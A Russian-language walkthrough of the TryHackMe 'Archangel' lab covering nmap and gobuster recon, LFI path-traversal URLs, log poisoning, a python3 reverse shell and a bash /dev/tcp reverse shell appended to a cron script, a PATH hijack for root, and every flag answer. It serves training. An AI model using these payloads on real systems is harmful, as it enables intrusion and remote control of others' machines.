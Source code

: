 # TryHackMe: Archangel

## Task 1: Deploy Machine

### Question 1: Connect to openvpn and deploy the machine - :heavy\_check_mark:

## Task 2: Get a shell
Для начала просканируем хост при помощи Nmap:
```sh
nmap -sC -sV -p- 10.10.78.160 -T4
```

![ScreenShot](screenshots/1.png)

Найденные сервисы:
- 22 port - SSH (OpenSSH 7.6p1)
- 80 port - HTTP (Apache httpd 2.4.29)

Переходим на сайт и находим альтернативное имя исследуемого хоста **mafialive.thm**

![ScreenShot](screenshots/2.png)

### Question 2: Find a different hostname - mafialive.thm

Редактируем соответствующим образом файл **/etc/hosts**, внеся в него новую запись с альтернативным именем.

![ScreenShot](screenshots/3.png)

Вновь перейдем на сайт, но уже используя найденное имя

![ScreenShot](screenshots/4.png)

### Question 3: Find flag 1 - thm{f0und_th3_r1ght_h0st_n4m3}

Теперь просканируем сайт на наличие директорий:
```sh
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/dirb/common.txt
```

![ScreenShot](screenshots/5png)

Находим **robots.txt**:

![ScreenShot](screenshots/6.png)

Переходим на **/test.php**:

![ScreenShot](screenshots/7.png)

### Question 4: Look for a page under development - test.php

На странице располагается кнопка. Если нажать на нее, то появится сообщение и в url отобразится полный путь до того места, где мы находимся.

![ScreenShot](screenshots/8.png)

Намек на LFI. Пробуем посмотреть на **/etc/passwd**:
```sh
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```

![ScreenShot](screenshots/9.png)

После нескольких попыток у нас получается дотянуться до вышеупомянутого файла. Попробуем получить исходный код страницы **test.php**
```sh
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![ScreenShot](screenshots/10.png)

Копируем полученную строку в формате base64 и декодируем, получая исходный код страницы и второй флаг:

![ScreenShot](screenshots/11.png)

### Question 5: Find flag 2 - thm{explo1t1ng_lf1}

Далее находим страницу с логами Apache:
```sh
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//log/apache2/access.log
```

![ScreenShot](screenshots/12.png)

Откроем BurpSuite и перенесем в Repeater наш запрос:

![ScreenShot](screenshots/13.png)

Модифицируем запрос, как показано ниже:

![ScreenShot](screenshots/14.png)

Результат запроса:

![ScreenShot](screenshots/15.png)

Как видим, наша команда **ls**, которая передана в качестве аргумента параметру **cmd**, успешно исполнилась. Параметр **cmd** указан в поле **User-Agent**, т.е. в этом поле ожидается прием команды на исполнение через аргумент.

Раз команды исполняются, можно реализовать команду на получение reverse shell'а (Обращаю внимание на то, что используется именно python3):
```sh
python3%20-c%20'import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.106.249",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Для начала ставим у себя на машине порт 4444 на прослушивание:

![ScreenShot](screenshots/16.png)

Далее во все том же разделе Repeater, необходимо внедрить команду для получения reverse shell'а:

![ScreenShot](screenshots/17.png)

В итоге мы получаем первичный доступ к терминалу на удаленном хосте:

![ScreenShot](screenshots/18.png)

Получаем очередной флаг:

![ScreenShot](screenshots/19.png)

### Question 6: Get a shell and find the user flag - thm{lf1_t0_rc3_1s_tr1cky}

## Task 3: Root the machine
Среди файлов пользователя **archangel**, не удалось найти ничего интересного, найдена только та самая ссылка...

![ScreenShot](screenshots/20.png)

Заглянем в **crontab**:

![ScreenShot](screenshots/21.png)

Находим задачу, которая запускает скрипт helloworld.sh:

![ScreenShot](screenshots/22.png)

Собственно говоря, можно в этот файл добавить команду, которая даст нам другой reverse shell, но уже от лица пользователя **archangel**.
```sh
echo "bash -i >& /dev/tcp/10.18.106.249/5555 0>&1" >> /opt/helloworld.sh
```

Слушаем другой порт, например, 5555:

![ScreenShot](screenshots/23.png)

Запускаем команду, которая представлена выше:

![ScreenShot](screenshots/24.png)

И вот у нас получилось реализовать горизонтальное повышение привилегий:

![ScreenShot](screenshots/25.png)

Получаем еще один флаг:

![ScreenShot](screenshots/26.png)

### Question 7: Get User 2 flag - thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}

Теперь перед нами стоит задача получить суперпользователя. К сожалению, sudo мы использовать не можем:

![ScreenShot](screenshots/27.png)

В директории /home/archangel/secret, помимо флага, обнаружен исполняемый файл. Попробуем его запустить:

![ScreenShot](screenshots/28.png)

![ScreenShot](screenshots/29.png)

Получаем ошибку, связанную с **cp**. А вот тут как раз можно повыситься, подменив ту команду.

![ScreenShot](screenshots/30.png)

Всякий раз, когда вызывается команда **cp**, **/bin/bash** будет выполняться с разрешения действующего пользователя (в случае двоичного файла SUID это будет root). Привилегии повышены до суперпользователя - читаем последний флаг:

![ScreenShot](screenshots/31.png)

### Question 8: Root the machine and find the root flag - thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
